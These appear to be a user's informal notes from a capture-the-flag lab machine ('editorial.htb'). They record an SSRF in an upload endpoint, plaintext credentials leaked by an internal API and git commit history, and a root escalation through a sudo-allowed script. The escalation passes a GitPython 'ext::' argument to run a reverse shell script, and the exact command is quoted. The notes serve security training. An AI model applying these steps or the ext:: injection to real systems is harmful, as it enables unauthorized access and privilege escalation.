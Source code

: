 ___

# User

submissions@tiempoarriba.htb

fuzz subdomains


using the HUGO framework


-> did not find subs or any interesting dirs def missing something

why is this 200 ok

http://editorial.htb/?:

*endpoints*
/upload_cover
/upload

Hugo 0.104.2


*SSRF is present here, and theres also something here*
http://localhost:5000


*these 2 mails here*
      "contact_email_1": "soporte@tiempoarriba.oc",
      "contact_email_2": "info@tiempoarriba.oc",



*this endpoint found creds*
"endpoint": "/api/latest/metadata/messages/authors

{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}



Username: dev
Password: dev080217_devAPI!@

*logs in ssh*


*gotta get in this user / .git prob has creds???*
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash



syslog 
theres a socked and some services running as dev stuff like that ? maybe thats the way?
uid=107(syslog) gid=113(syslog) groups=113(syslog),4(adm)


    location / {
        include proxy_params;
        proxy_pass http://unix:/opt/apps/app_editorial/editorial.sock;
    }
}



*in commit messages found the pass for prod*

Username: prod
Password: 080217_Producti0n_2023!@



*this right here*
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *



*i think like this*
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858



*created a rev shell script and ran it like this*
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py ext::/home/prod/cool.sh



